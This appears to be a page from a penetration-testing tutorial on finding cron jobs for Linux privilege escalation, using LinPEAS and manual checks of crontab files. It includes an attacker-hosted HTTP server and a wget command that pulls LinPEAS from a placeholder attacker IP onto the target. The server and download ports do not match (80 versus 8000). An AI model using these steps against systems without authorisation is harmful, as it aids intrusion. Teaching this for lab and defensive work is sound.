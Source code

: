 ### **Enumerating Cron Jobs Using LinPEAS**

1.  Set up an HTTP server on your attacker machine in the directory where `linpeas.sh` is located:  
    `python3 -m http.server 80`  
    
    ![](../../../../img/Linux-Environment/60.png)

2.  Use the following command on the target machine to download LinPEAS:  
    `wget http://[IP-ADRESS]:8000/linpeas.sh`
    
    ![](../../../../img/Linux-Environment/61.png)

3.  Run LinPEAS to enumerate system cron jobs:  

    ![](../../../../img/Linux-Environment/62.png) 

    ??? info "NOTE"

        LinPEAS enumerates the cron jobs and displays the same information found manually.

    ![](../../../../img/Linux-Environment/63.png)

    ??? info "NOTE"

        Red/Yellow in LinPEAS indicates a 95% chance that the finding can be exploited for privilege escalation

### **Enumerating System Cron Jobs Manually**

1.  The first place to check for cron jobs is in the system crontab file:  
    `cat /etc/crontab`  

    ![](../../../../img/Linux-Environment/64.png)

**Here we can see that two cron jobs are running on this host:**

1.  The first cron job runs every minute, executing the `overwrite.sh` script.

2.  The second cron job runs every minute, executing the `/usr/local/bin/compress.sh` script.

3.  If no cron jobs are found in the crontab file, or if these ones cannot be exploited, check for custom jobs in all of the cron directories:  
    `ls -l /etc/cron*`  
    
    ![](../../../../img/Linux-Environment/65.png)

    ??? info "NOTE"

        All five additional directories where cron jobs can execute from are shown. No custom cron jobs were found; these are all standard jobs commonly found by default

### **Enumerating User Cron Jobs Manually**

1.  After enumerating all the system crontabs, check for user cron jobs (hidden cron jobs):  
    `ls -l /var/spool/cron/crontabs`  
    
    ![](../../../../img/Linux-Environment/66.png)
    
    ??? info "NOTE"

        Standard users cannot access the directory where user cron jobs are stored.

     
2.  And when we check the /var/spool/cron folder permissions, we can see why.  
    `ls -l /var/spool/cron | grep "crontabs"`  

    ![](../../../../img/Linux-Environment/67.png) 

    ??? info "NOTE"

        The 'T' sticky bit is a permission bit set on a directory that allows only the owner or the root user to delete or rename the files within it.